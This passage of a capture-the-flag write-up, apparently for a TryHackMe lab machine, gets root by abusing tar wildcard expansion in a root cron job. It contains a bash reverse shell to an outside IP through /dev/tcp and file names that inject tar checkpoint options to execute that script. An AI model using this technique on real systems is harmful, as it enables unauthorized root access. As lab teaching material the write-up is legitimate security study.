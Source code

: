 
If we use linpeas again, we can notice this:

![Pasted image 20250428152151.png](../../IMAGES/Pasted%20image%2020250428152151.png)

```
*/2 *   * * *   root    cd /home/mandre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

We got a cronjob which runs each 2 minutes, visualizing the format of this, we can notice it is vulnerable to `wildcard injection`, let's do the following in order to get a root shell:

1. Create a `shell.sh` file inside of `/home/andre/backup`:

```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.6.34.159/9001 0>&1'
```

2. Craft the malicious `filenames` to get RCE:

```
echo "" > "--checkpoint=1"       
echo "" > "--checkpoint-action=exec=sh shell.sh"
chmod +x shell.sh
```

- `--checkpoint=1`: ForcesÂ `tar`Â to trigger a checkpoint
- `--checkpoint-action=exec=...`: ExecutesÂ `shell.sh`Â when the checkpoint is reached.

3. Start our listener and wait for the shell:

![Pasted image 20250428152829.png](../../IMAGES/Pasted%20image%2020250428152829.png)

![Pasted image 20250428152834.png](../../IMAGES/Pasted%20image%2020250428152834.png)

There we go, we got root, let's read our final flag and end the CTF:

```
root@cmess:/home/andre/backup# cat /root/root.txt
thm{9f85b7fdeb2cf96985bf5761a93546a2}
```

